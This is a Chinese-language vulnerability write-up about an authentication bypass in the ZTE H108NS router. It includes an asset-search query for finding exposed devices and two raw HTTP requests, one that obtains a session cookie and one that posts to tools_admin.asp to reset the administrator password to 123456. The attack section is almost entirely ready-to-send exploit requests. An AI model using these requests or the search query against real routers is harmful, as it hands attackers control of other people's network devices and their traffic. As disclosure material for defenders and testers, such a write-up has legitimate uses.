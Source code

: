 # 中兴H108NS 路由器存在任意密码修改漏洞

### 一、漏洞描述
中兴H108NS路由器tools_admin.asp接口处存在身份认证绕过漏洞，攻击者可利用该漏洞绕过身份认证允许访问路由器的管理面板修改管理员密码，获取用户的敏感信息

### 二、影响版本
<font style="color:#000000;">中兴H108NS 路由器</font>

### 三、资产测绘
```plain
product="ZTE-H108NS"
```

![1720893566422-1dca4fef-cd22-42ec-a6c6-f1f781981eb1.png](./img/yg6Rd5hWh54g21ga/1720893566422-1dca4fef-cd22-42ec-a6c6-f1f781981eb1-490795.png)

### 四、漏洞复现
获取cookie

```java
GET / HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
```

![1720893478802-fc32d4a7-4418-4bdc-b001-79fad466674c.png](./img/yg6Rd5hWh54g21ga/1720893478802-fc32d4a7-4418-4bdc-b001-79fad466674c-592313.png)

使用获取cookie修改密码

```java
POST /cgi-bin/tools_admin.asp HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
Cookie: SESSIONID=39a2aef8;
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
 
adminFlag=1&CurrentAccess=0&uiViewTools_Password=123456&uiViewTools_PasswordConfirm=确认密码
```

min/123456登录系统![1720893410557-a4febc66-46a5-477d-8c28-0218ba4363e7.png](./img/yg6Rd5hWh54g21ga/1720893410557-a4febc66-46a5-477d-8c28-0218ba4363e7-749875.png)



> 更新: 2024-08-12 17:48:53  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/vil2xt2pbg119yg4>